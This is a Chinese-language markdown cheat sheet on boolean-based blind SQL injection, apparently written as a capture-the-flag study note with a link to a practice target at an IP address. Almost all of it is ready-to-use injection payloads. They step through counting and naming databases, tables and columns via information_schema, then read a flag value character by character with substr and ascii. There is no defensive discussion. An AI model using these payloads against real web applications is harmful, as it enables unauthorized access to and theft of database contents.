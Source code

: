 ```yaml
---
sidebar: auto
---
```


# sql盲注

[->地址点这里<-](http://106.54.188.129/)

## 基于布尔（莫得过滤的情况）
特征：当页面虽然不能返回查询的结果，但是对于输入 布尔值 0 和 1 的反应是不同的
一般采用二分法
可以使用 
`1' and '1'='1`
`1‘ and 1=1 #`
`1' ^   ^'1'='1

### 数据库的数量（好像没啥必要）
`1'and ((select count(*) from information_schema.schemata) >5 ) and '1'='1`

### 数据库的长度
`1'and ((select length(schema_name) from information_schema.schemata limit 0,1) >1 ) and '1'='1` 
或者↓更简单
`1'and ((select length(database())) >1 ) and '1'='1` 

### 数据库名字
用substr和ascii函数
`1' and ((select ascii(substr(schema_name,1,1)) from information_schema.schemata limit 0,1)>1) and '1' = '1` 
或者
`1'and ((select ascii(substr(database(),1,1))) >1 ) and '1'='1` 

### 表
1. 数量
`1'and ((select count(*) from information_schema.tables where table_schema = 'flag' ) >5 ) and '1'='1`
2. 长度
`1'and ((select length(table_name) from information_schema.tables where table_schema = 'flag'  limit 0,1) >8 ) and '1'='1`
3. 名称
`1' and ((select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema = 'flag'  limit 0,1)>1) and '1'='1`
### 字段
1. 数量
`1' and ((select count(column_name)  from information_schema.columns where table_schema='flag' and table_name='true_flag')>1) and '1'='1`
2. 长度
`1' and ((select length(column_name)  from information_schema.columns where table_schema='flag' and table_name='true_flag' limit 0,1)>1) and '1'='1`
2. 字段名
`1' and ((select ascii(substr(column_name,1,1))  from information_schema.columns where table_schema='flag' and table_name='true_flag' limit 0,1) > 104 ) and '1'='1`
### 内容
1. 数量
`1' and ((select count(*) from flag.true_flag)>1) and '1'='1`
2. 长度
`1' and ((select length(flag) from flag.true_flag limit 0,1)>1) and '1'='1`
3. ascii
`1' and ((select ascii(substr(flag,1,1)) from flag.true_flag limit 0,1)>1) and '1'='1`